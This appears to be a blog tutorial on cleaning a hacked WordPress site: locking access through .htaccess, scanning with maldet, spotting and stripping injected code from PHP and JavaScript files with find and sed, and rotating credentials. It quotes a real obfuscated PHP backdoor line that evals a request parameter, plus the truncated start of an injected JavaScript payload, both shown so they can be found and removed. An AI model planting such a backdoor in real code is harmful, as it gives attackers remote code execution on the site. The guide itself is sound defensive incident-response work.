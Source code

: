```yaml
---
title: Cleaning a hacked Wordpess site
tags:
    - PHP
    - Web
    - Wordpress
---
```


If you are reading this, you may be in this situation:

> So you've carefully installed WordPress, you've made it look exactly how you like with a decent theme, you've maybe installed some fancy plugins and you've crafted some fine posts and Pages. In short, you've put a lot of time and effort into your site.
>
> Then, one day, you load up your site in your browser, and find that it's not there, or it redirects to a porn site, or your site is full of adverts for performance-enhancing drugs. It leaves you wondering, Why would anyone hack my website? What are you supposed to do now?
>
> The entire experience of being compromised can feel devastating, making you wonder why you ever decided to create an online presence. Rest assured though it is not the end of the world, and there a number of practical steps you can take to address the problem once it's happened, and / or prevent it from ever happening again.

You can read the [FAQ My site was hacked](https://codex.wordpress.org/FAQ_My_site_was_hacked)
from wordpress.org in order to deal with the hack. Other than that, *I will share some tips
you may use in order to clean your files*.

* Deactivate the site or make it accessible only from your IP by adding on top of `.htaccess`
  the following directives:

	    order deny,allow
	    deny from all
	    allow from W.X.Y.Z # this is your IP address

	This is a required step in order to block bots infecting more files.

* Create a backup (files and database) or make sure that a current, working, backup exists. 
  Useful if anything goes wrong.

* Use [maldet](https://www.rfxn.com/projects/linux-malware-detect/) and 
  [findbot.pl](http://www.abuseat.org/findbot.pl) via

		maldet -a /path/to/site
		/path/to/findbot.pl /path/to/site

* Manually examine the files ordered by modification date, look for strange patterns
  and act accordingly:

	    find /path/to/site -type f -printf '%T+\t%p\n' | sort -nr | less

* Look for strange patterns on top of php files:

    	for i in $(find /path/to/site -type f -name '*.php'); do echo "$i "; head -1 $i; echo ""; done | less -S

	When the files are something like this (real example):

	    <?php    $qV="stop_";$s20=strtoupper($qV[4].$qV[3].$qV[2].$qV[0].$qV[1]);if(isset(${$s20}['q828e00'])){eval(${$s20}['q828e00']);}?><?php

	you can clean with the following sed command:

    	sed 's/<?php.*/<?php/'
    	
	or enmasse:

		# WARNING: it may break non-infected files as well
    	for i in $(find /path/to/site -type f -name '*.php'); do sed -i.bckp 's/<?php.*/<?php/' "$i" ; done

* On bottom of php files:

		for i in $(find /path/to/site -type f -name '*.php'); do echo "$i "; tail -1 $i; echo ""; done | less -S 

* On bottom of javascript files:

		for i in $(find /path/to/site -type f -name '*.js'); do echo "$i "; tail -1 $i; echo ""; done | less -S

	if these files have infected with a pattern like this (real example):

		/*a3d5ba6096d839a2936a817de24fbf2d*/;(function(){var ttntdaye="";var ikkykrzk="...

	you can apply the following command:

		for i in $(find /path/to/site -type f -name '*.js'); do sed -i.bckp 's/\/\*\([a-zA-Z0-9]\{32\}\)\*\/.*//' "$i" ; done

	in order to remove the infection.

* Look for php files in `wp-content/uploads/` directory and remove them:

	    find /path/to/site/wp-content/uploads/ -name *.php

* Change database credentials, administrator(s) passwords and generate new keys from 
[the Wordpress key generator](https://api.wordpress.org/secret-key/1.1/salt/).

* If you are unsure about the cleaning procedure, one way to prevent bots from infecting more files
  is to change file ownership, like:

  		chown -R root:root /path/to/site
		chmod -R u+rw,go+r,go-w,+X /path/to/site

* When done, revert the change made to `.htaccess` and hope for the best. This is why backups 
 (both files and database), version control and updates are of utmost importance.

